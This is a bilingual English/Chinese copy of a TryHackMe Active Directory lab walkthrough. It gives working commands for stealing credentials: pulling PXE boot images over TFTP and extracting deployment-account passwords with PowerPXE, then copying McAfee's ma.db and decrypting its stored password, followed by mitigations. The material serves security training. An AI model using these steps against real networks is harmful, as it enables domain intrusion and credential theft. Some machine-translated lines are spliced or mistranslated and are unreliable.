SCCM 可以看作是 MDT 的扩展和升级版。软件安装后会发生什么呢？SCCM 负责这类补丁管理。它允许 IT 团队查看整个环境中所有已安装软件的可用更新。团队还可以在沙盒环境中测试这些补丁，以确保其稳定性，然后再集中部署到所有已加入域的计算机。这大大简化了 IT 团队的工作。

However, anything that provides central management of infrastructure such as MDT and SCCM can also be targetted by attackers in an attempt to take over large portions of critical functions in the estate. Although MDT can be configured in various ways, for this task, we will focus exclusively on a configuration called Preboot Execution Environment (PXE) boot.
然而，任何提供基础设施集中管理的工具，例如 MDT 和 SCCM，都可能成为攻击者的目标，试图接管系统中大部分关键功能。尽管 MDT 可以配置成多种方式，但本文将重点介绍一种名为预启动执行环境 (PXE) 的配置。

PXE Boot PXE 启动

Large organisations use PXE boot to allow new devices that are connected to the network to load and install the OS directly over a network connection. MDT can be used to create, manage, and host PXE boot images. PXE boot is usually integrated with DHCP, which means that if DHCP assigns an IP lease, the host is allowed to request the PXE boot image and start the network OS installation process. The communication flow is shown in the diagram below**:**
大型组织使用 PXE 启动，使连接到网络的新设备能够通过网络连接直接加载和安装操作系统。MDT 可用于创建、管理和托管 PXE 启动映像。PXE 启动通常与 DHCP 集成，这意味着如果 DHCP 分配了 IP 地址，主机就可以请求 PXE 启动映像并启动网络操作系统安装过程。通信流程如下图所示 **：**

**
**Once the process is performed, the client will use a TFTP connection to download the PXE boot image. We can exploit the PXE boot image for two different purposes:
该过程完成后，客户端将使用 TFTP 连接下载 PXE 启动镜像。我们可以利用 PXE 启动镜像实现以下两个不同目的：

- Inject a privilege escalation vector, such as a Local Administrator account, to gain Administrative access to the
  注入权限提升向量，例如本地管理员帐户，以获取对系统的管理访问权限。OS 你 once the PXE boot has been completed.
  PXE 启动完成后。
- Perform password scraping attacks to recover
  执行密码抓取攻击以恢复AD 广告 credentials used during the install.
  安装过程中使用的凭据。

In this task, we will focus on the latter. We will attempt to recover the deployment service account associated with the MDT service during installation for this password scraping attack. Furthermore, there is also the possibility of retrieving other AD accounts used for the unattended installation of applications and services.
本次任务将重点关注后者。我们将尝试恢复在安装过程中与 MDT 服务关联的部署服务帐户，以应对此次密码抓取攻击。此外，还有可能检索用于应用程序和服务无人值守安装的其他 AD 帐户。

PXE Boot Image Retrieval PXE 启动镜像检索

Since DHCP is a bit finicky, we will bypass the initial steps of this attack. We will skip the part where we attempt to request an IP and the PXE boot preconfigure details from DHCP. We will perform the rest of the attack from this step in the process manually.
由于 DHCP 服务器不太稳定，我们将跳过此次攻击的初始步骤。我们将跳过尝试从 DHCP 服务器请求 IP 地址和 PXE 启动预配置信息的步骤。接下来的攻击步骤将手动执行。

The first piece of information regarding the PXE Boot preconfigure you would have received via DHCP is the IP of the MDT server. In our case, you can recover that information from the TryHackMe network diagram.
您通过 DHCP 获取的关于 PXE 启动预配置的第一条信息是 MDT 服务器的 IP 地址。在本例中，您可以从 TryHackMe 网络拓扑图中获取该信息。

The second piece of information you would have received was the names of the BCD files. These files store the information relevant to PXE Boots for the different types of architecture. To retrieve this information, you will need to connect to this website:
您收到的第二条信息是 BCD 文件的名称。这些文件存储了与不同架构的 PXE 启动相关的信息。要获取这些信息，您需要连接到以下网站：[http://pxeboot.za.tryhackme.com](http://pxeboot.za.tryhackme.com/). It will list various BCD files:
它将列出各种 BCD 文件：


Usually, you would use TFTP to request each of these BCD files and enumerate the configuration for all of them. However, in the interest of time, we will focus on the BCD file of the **x64** architecture. Copy and store the full name of this file. For the rest of this exercise, we will be using this name placeholder `x64{7B...B3}.bcd` since the files and their names are regenerated by MDT every day. Each time you see this placeholder, remember to replace it with your specific BCD filename. **Note as well that if the network has just started, these file names will only update after 10 mintes of the network being active.**
通常情况下，您会使用 TFTP 请求每个 BCD 文件并枚举它们的配置。但是，为了节省时间，我们将重点关注 x64 架构的 BCD 文件。请复制并保存此文件的完整名称。在本练习的其余部分，我们将使用名称占位符 `x64{7B...B3}.bcd` ，因为 MDT 每天都会重新生成文件及其名称。每次看到此占位符时，请记住将其替换为您自己的 BCD 文件名。另请注意，如果网络刚刚启动，这些文件名将在网络运行 10 分钟后才会更新。

With this initial information now recovered from DHCP (wink wink), we can enumerate and retrieve the PXE Boot image. We will be using our SSH connection on THMJMP1 for the next couple of steps, so please authenticate to this SSH session using the following:
现在我们已经从 DHCP 服务器获取了初始信息（你懂的），接下来就可以枚举并检索 PXE 启动镜像了。接下来的几个步骤我们将使用 THMJMP1 上的 SSH 连接，所以请使用以下命令对该 SSH 会话进行身份验证：

```
ssh thm@THMJMP1.za.tryhackme.com
```

and the password of `Password1@`.
以及 `Password1@` 的密码。

To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:
为确保网络中的所有用户都可以使用 SSH，请先创建一个以您的用户名命名的文件夹，然后将 powerpxe 存储库复制到该文件夹​​中：

SSH Command Prompt SSH 命令提示符

```markup
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```

The first step we need to perform is using TFTP and downloading our BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the /Tmp/ directory on the MDT server. We can initiate the TFTP transfer using the following command in our
我们需要执行的第一步是使用 TFTP 下载 BCD 文件，以便读取 MDT 服务器的配置。TFTP 比 FTP 略微复杂一些，因为我们无法直接列出文件。相反，我们需要发送文件请求，服务器会通过 UDP 协议连接回我们并传输文件。因此，在指定文件及其路径时，我们需要确保信息的准确性。BCD 文件始终位于 MDT 服务器的 /Tmp/ 目录中。我们可以使用以下命令启动 TFTP 传输。SSH session: 会议：

SSHCommand Prompt 命令提示符

```markup
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```

You will have to lookup THMMDT IP with `nslookup thmmdt.za.tryhackme.com`. With the BCD file now recovered, we will be using [powerpxe(opens in new tab)](https://github.com/wavestone-cdt/powerpxe)
您需要使用 `nslookup thmmdt.za.tryhackme.com` 查找 THMMDT IP 地址。现在 BCD 文件已恢复，我们将使用 powerpxe。 to read its contents. Powerpxe is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:
读取其内容。Powerpxe 是一个 PowerShell 脚本，可以自动执行此类攻击，但结果通常不稳定，因此最好采用手动方式。我们将使用 powerpxe 的 Get-WimFile 函数从 BCD 文件中恢复 PXE 启动映像的位置：

SSH Command Prompt SSH 命令提示符

```markup
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:
WIM 文件是采用 Windows 映像格式 (WIM) 的可启动映像。现在我们已经知道了 PXE 启动映像的位置，可以再次使用 TFTP 下载此映像：

SSHCommand Prompt 命令提示符

```markup
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```

This download will take a while since you are downloading a fully bootable and configured Windows image. Maybe stretch your legs and grab a glass of water while you wait.
由于您下载的是完全可启动且已配置好的 Windows 镜像，因此下载需要一些时间。您可以趁此机会伸展一下腿脚，喝杯水。

Recovering Credentials from a PXE Boot Image
从 PXE 启动映像恢复凭据

Now that we have recovered the PXE Boot image, we can exfiltrate stored credentials. It should be noted that there are various attacks that we could stage. We could inject a local administrator user, so we have admin access as soon as the image boots, we could install the image to have a domain-joined machine. If you are interested in learning more about these attacks, you can read this [article(opens in new tab)](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/). This exercise will focus on a simple attack of just attempting to exfiltrate credentials.
现在我们已经恢复了 PXE 启动镜像，可以提取存储的凭据。需要注意的是，我们可以发起多种攻击。例如，我们可以注入一个本地管理员用户，这样镜像启动后我们就能立即获得管理员权限；或者我们可以将镜像安装到已加入域的机器上。如果您想了解更多关于这些攻击的信息，可以阅读这篇文章。本练习将重点介绍一种简单的攻击，即尝试提取凭据。

Again we will use powerpxe to recover the credentials, but you could also do this step manually by extracting the image and looking for the bootstrap.ini file, where these types of credentials are often stored. To use powerpxe to recover the credentials from the bootstrap file, run the following command:
我们将再次使用 powerpxe 来恢复凭据，但您也可以手动执行此步骤：提取镜像并查找 bootstrap.ini 文件，此类凭据通常存储在该文件中。要使用 powerpxe 从 bootstrap 文件中恢复凭据，请运行以下命令：

SSH Command Prompt SSH 命令提示符

```markup
PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```

As you can see, powerpxe was able to recover the AD credentials. We now have another set of AD credentials that we can use!
如您所见，powerpxe 成功恢复了 AD 凭据。我们现在有了另一组可以使用的 AD 凭据！





### task 7

The last enumeration avenue we will explore in this network is configuration files. Suppose you were lucky enough to cause a breach that gave you access to a host on the organisation's network. In that case, configuration files are an excellent avenue to explore in an attempt to recover AD credentials. Depending on the host that was breached, various configuration files may be of value for enumeration: 
我们将探讨的最后一个网络枚举途径是配置文件。假设您幸运地造成了安全漏洞，从而获得了对组织网络中某个主机的访问权限。在这种情况下，配置文件是尝试恢复 AD 凭据的绝佳途径。根据被入侵主机的不同，不同的配置文件可能对枚举有价值：

- Web application config files
  Web 应用程序配置文件
- Service configuration files
  服务配置文件
- Registry keys 注册表项
- Centrally deployed applications
  集中部署的应用程序

Several enumeration scripts, such as [Seatbelt(opens in new tab)](https://github.com/GhostPack/Seatbelt), can be used to automate this process.
可以使用一些枚举脚本（例如 Seatbelt）来自动化此过程。

Configuration File Credentials
配置文件凭据

However, we will focus on recovering credentials from a centrally deployed application in this task. Usually, these applications need a method to authenticate to the domain during both the installation and execution phases. An example of such as application is McAfee Enterprise Endpoint Security, which organisations can use as the endpoint detection and response tool for security.
然而，本任务将重点介绍如何从集中部署的应用程序中恢复凭据。通常，这些应用程序在安装和运行阶段都需要一种向域进行身份验证的方法。例如，McAfee Enterprise Endpoint Security 就是这样一款应用程序，企业可以将其用作安全端点检测和响应工具。

McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db. This database file can be retrieved and read with local access to the host to recover the associated AD service account. We will be using the SSH access on THMJMP1 again for this exercise.
McAfee 会将安装过程中用于连接回 Orchestrator 的凭据嵌入到名为 ma.db 的文件中。可以通过对主机的本地访问来检索和读取此数据库文件，从而恢复关联的 AD 服务帐户。在本练习中，我们将再次使用 THMJMP1 上的 SSH 访问权限。

The ma.db file is stored in a fixed location:
ma.db 文件存储在固定位置：

SSHCommand Prompt 命令提示符

```shell-session
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```

We can use SCP to copy the ma.db to our AttackBox:
我们可以使用 SCP 将 ma.db 复制到我们的攻击箱中：

Terminal 终端

```shell-session
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```

To read the database file, we will use a tool called sqlitebrowser. We can open the database using the following command:
要读取数据库文件，我们将使用名为 sqlitebrowser 的工具。我们可以使用以下命令打开数据库：

Terminal 终端

```shell-session
thm@thm:# sqlitebrowser ma.db
```

Using sqlitebrowser, we will select the Browse Data option and focus on the AGENT_REPOSITORIES table:
使用 sqlitebrowser，我们将选择“浏览数据”选项，并将焦点放在 AGENT_REPOSITORIES 表中：


We are particularly interested in the second entry focusing on the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries. Make a note of the values stored in these entries. However, the AUTH_PASSWD field is encrypted. Luckily, McAfee encrypts this field with a known key. Therefore, we will use the following old python2 script to decrypt the password. The script has been provided as a downloadable task file or on the AttackBox, it can be found in the` /root/Rooms/BreachingAD/task7/` directory.
我们特别关注第二个条目，即 DOMAIN、AUTH_USER 和 AUTH_PASSWD 字段。请记下这些条目中存储的值。但是，AUTH_PASSWD 字段是加密的。幸运的是，McAfee 使用已知密钥加密了该字段。因此，我们将使用以下旧的 Python 2 脚本来解密密码。该脚本已作为可下载的任务文件提供，也可以在 AttackBox 上找到，位于 `/root/Rooms/BreachingAD/task7/` 目录中。

**Note: The tool we will use here is quite old. It uses Python v2 and relies on an old crypto library. If you cannot get the script to work on your own VM, please make use of the AttackBox. However, there has been a recent update to the application to ensure that it works on Python3 as well, you can download the latest version here: [https://github.com/funoverip/mcafee-sitelist-pwd-decryption(opens in new tab)](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)
注意：我们将要使用的工具比较老旧。它使用 Python v2，并且依赖于一个较旧的加密库。如果您无法在自己的虚拟机上运行该脚本，请使用 AttackBox。不过，该应用程序最近已更新，以确保其也能在 Python 3 上运行，您可以从这里下载最新版本：https://github.com/funoverip/mcafee-sitelist-pwd-decryption**

You will have to unzip the mcafee-sitelist-pwd-decryption.zip file:
您需要解压缩 mcafee-sitelist-pwd-decryption.zip 文件：

Terminal 终端

```shell-session
thm@thm:~/root/Rooms/BreachingAD/task7/$ unzip mcafeesitelistpwddecryption.zip
```

By providing the script with our base64 encoded and encrypted password, the script will provide the decrypted password:
通过向脚本提供我们经过 base64 编码和加密的密码，脚本将提供解密后的密码：

Terminal 终端

```shell-session
thm@thm:~/root/Rooms/BreachingAD/task7/mcafee-sitelist-pwd-decryption-master$ python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
Crypted password   : <AUTH PASSWD VALUE>
Decrypted password : <Decrypted Pasword>
```

We now once again have a set of AD credentials that we can use for further enumeration! This is just one example of recovering credentials from configuration files. If you are ever able to gain a foothold on a host, make sure to follow a detailed and refined methodology to ensure that you recover all loot from the host, including credentials and other sensitive information that can be stored in configuration files.
现在我们又获得了一组可用于进一步枚举的 AD 凭据！这只是从配置文件中恢复凭据的一个例子。如果您有机会控制一台主机，请务必遵循详细且完善的方法，以确保从主机上恢复所有重要信息，包括凭据以及可能存储在配置文件中的其他敏感信息。





### task 8

A significant amount of attack avenues can be followed to breach AD. We covered some of those commonly seen being used during a red team exercise in this network. Due to the sheer size of the attack surface, new avenues to recover that first set of AD credentials are constantly being discovered. Building a proper enumeration methodology and continuously updating it will be required to find that initial pair of credentials.
攻击 AD 的途径非常多。我们已经介绍了一些在红队演练中常用的攻击方法。由于攻击面巨大，获取初始 AD 凭据的新途径层出不穷。因此，构建并持续更新完善的枚举方法对于找到初始凭据至关重要。

Mitigations 缓解措施

In terms of mitigations, there are some steps that organisations can take:
在缓解措施方面，各组织可以采取一些措施：

- User awareness and training - The weakest link in the cybersecurity chain is almost always users. Training users and making them aware that they should be careful about disclosing sensitive information such as credentials and not trust suspicious emails reduces this attack surface.
  用户意识和培训——网络安全链中最薄弱的环节几乎总是用户。培训用户，让他们意识到应该谨慎披露敏感信息（例如凭证），不要轻信可疑电子邮件，可以减少攻击面。
- Limit the exposure of
  限制接触AD 广告 services and applications online - Not all applications must be accessible from the internet, especially those that support
  在线服务和应用程序——并非所有应用程序都必须可通过互联网访问，尤其是那些支持在线服务和应用程序的应用程序。NTLM and  和LDAP authentication. Instead, these applications should be placed in an intranet that can be accessed through a
  身份验证。相反，这些应用程序应该放置在可以通过身份验证访问的内部网中。VPN. The  。 这VPN can then support multi-factor authentication for added security.
  然后可以支持多因素身份验证，以增强安全性。
- Enforce Network Access Control (NAC) - NAC can prevent attackers from connecting rogue devices on the network. However, it will require quite a bit of effort since legitimate devices will have to be allowlisted.
  强制执行网络访问控制 (NAC)——NAC 可以阻止攻击者将恶意设备连接到网络。但是，由于需要将合法设备添加到允许列表中，因此这需要花费大量精力。
- Enforce  执行SMB 中小企业 Signing - By enforcing
  签署——通过强制执行SMB 中小企业 signing,  签名，SMB 中小企业 relay attacks are not possible.
  中继攻击是不可能的。
- Follow the principle of least privileges - In most cases, an attacker will be able to recover a set of
  遵循最小权限原则——在大多数情况下，攻击者能够恢复一组权限。AD 广告 credentials. By following the principle of least privilege, especially for credentials used for services, the risk associated with these credentials being compromised can be significantly reduced.
  凭证。遵循最小权限原则，特别是对于用于服务的凭证，可以显著降低这些凭证泄露的风险。

Now that we have breached AD, the next step is to perform enumeration of AD to gain a better understanding of the domain structure and identify potential misconfigurations that can be exploited. This will be covered in the next room. Remember to clear the DNS configuration!
既然我们已经攻破了 AD ，下一步就是枚举 AD ，以便更好地了解域结构并识别可能被利用的潜在配置错误。这将在下一节课中讲解。记住要清除 DNS 配置！

Answer the questions below
请回答以下问题


I understand how configuration changes can help prevent AD breaches.
我明白配置更改如何有助于防止 AD 安全漏洞。


